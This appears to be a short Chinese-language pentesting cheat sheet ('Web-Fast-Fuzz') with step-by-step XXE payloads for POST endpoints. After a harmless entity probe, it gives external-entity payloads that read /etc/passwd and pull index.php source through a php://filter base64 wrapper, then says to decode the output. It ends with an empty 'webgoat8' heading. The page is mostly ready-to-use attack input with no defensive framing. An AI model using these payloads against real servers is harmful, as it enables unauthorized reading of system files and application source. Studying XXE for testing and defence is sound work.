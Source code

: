 # Web-Fast-Fuzz

#### XXE

#### 测试方法

发现post请求的接口的时候，可以这样试试：

```text
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test "THIS IS A STRING!">
]>
<methodCall><methodName>&test;</methodName></methodCall>
```

如果发现了一个错误：

```text
<?xml version="1.0"?>
<!DOCTYPE a
[<!ENTITY test "nice string bro">]
>

<methodCall><methodName>&test;</methodName></methodCall>
```

说明能够解析，试试读文件：

```text
<?xml version="1.0"?>
<!DOCTYPE a
[<!ENTITY test SYSTEM "file:///etc/passwd">]
>

<methodCall><methodName>&test;</methodName></methodCall>
```

或者用php伪协议：

```text
<?xml version="1.0"?>
<!DOCTYPE a
[<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]
>

<methodCall><methodName>&test;</methodName></methodCall>
```

得到的结果再base64解码即可。 

### webgoat8

### 测试方法
